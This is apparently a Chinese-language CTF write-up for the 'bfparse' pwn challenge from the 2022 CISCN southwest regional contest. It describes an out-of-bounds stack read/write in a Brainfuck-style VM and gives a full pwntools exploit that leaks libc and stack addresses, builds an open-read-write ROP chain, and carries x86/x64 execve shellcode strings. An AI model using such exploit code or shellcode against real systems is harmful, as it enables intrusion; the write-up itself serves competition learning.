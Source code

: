 ```yaml
---
title: 2022 ciscn西南分区赛 pwn Writeup
date: 2022-07-11 18:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=32/
pin: false
published:
---
```

## bfparse

![image-20220711181159179](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711181159179.png)

题目是9.8的版本，calloc开辟了一段空间，典型的VMpwn，逆向一下输入

```
+ 3
, 6
- 4
.5
< 2
> 1
[ 7
] 8
```



![image-20220711181231466](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711181231466.png)

漏洞点在于执行命令时存在对栈的读入和栈的泄露操作，且下标可控，通过计算偏移在返回地址处写入orw

![image-20220711181319999](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711181319999.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
# context.log_level='debug'

p = process("./pwn")
p = remote('192.168.0.99','58011')
# p = remote("node4.buuoj.cn","28559")
elf = ELF("./pwn")
# libc = elf.libc
libc = ELF('./libc.so.6')

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

buf = 0x4040
idx = 0x8440
Order = 0x8040
#-------------------------------------
pay = '>'*0x000238+'.>'*8+'>'*8+'.>'*8+'<'*0x38+',>'*0x90
s(pay)
libc_base = uu64()-243-libc.sym['__libc_start_main']
lg('libc_base')

stack = uu64()
lg('stack')

pop_rdi = 0x0000000000023b6a+libc_base
pop_rsi = 0x000000000002601f+libc_base
pop_rdx = 0x0000000000142c92+libc_base
syscall = 0x00000000000630a9+libc_base
pop_rax = 0x0000000000036174+libc_base
bin_sh = libc_base+libc.search("/bin/sh\x00").next()
Open = libc_base+libc.sym['open']
Read = libc_base+libc.sym['read']
Write = libc_base+libc.sym['write']
environ = libc_base+libc.sym["environ"]
flag_addr = stack-0x88
lg('pop_rdi')
#------------------------------------------------------
pay = p64(pop_rdi)+p64(flag_addr)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(Open)
pay += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(environ)+p64(pop_rdx)+p64(0x60)+p64(Read)
pay += p64(pop_rdi)+p64(1)+p64(Write)+'flag\x00\x00\x00\x00'
s(pay)
# 0x7f23903a8000
p.interactive()
```

